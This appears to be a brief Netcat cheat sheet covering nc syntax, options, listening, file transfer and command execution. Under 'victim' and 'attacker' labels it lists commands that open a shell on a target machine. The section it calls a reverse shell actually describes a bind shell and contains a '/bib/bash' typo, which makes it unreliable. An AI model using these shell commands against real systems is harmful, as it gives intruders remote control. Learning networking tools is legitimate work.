 # NETCAT

Netcat functions as a back-end tool that allows for port scanning and port listening. In addition, you can actually transfer files directly through Netcat or use it as a backdoor into other networked systems. Partnered with a tool like Varonis Edge, you would receive an alert of any unusual activity and could then use Netcat to investigate. Lastly, Netcat is a flexible tool because of how it can be scripted for larger tasks.

** Syntax **

> # nc [options] hostname port [port]

# Options

* No DNS lookup :

> -n

* Verbose output :

> -v

* To specify the port to connect :

> -p

* For listening :

> nc -l [port_no]

* For help :

> nc -h

* For connecting to specified IP and port :

> nc [IP] [port]

* For executing commands :

> -e [command]

* For reverse shell :

      In victim's machine
      
     > nc -l -p [port] -e /bib/bash

      In attacker's machine
      
     > nc [IP] [port]

* Remote file transfering :

      In victim's machine
      
     > nc -l -p [port] > filename

      In attacker's machine
      
     > cat '/path_to_file/filename' | nc [IP] [port]


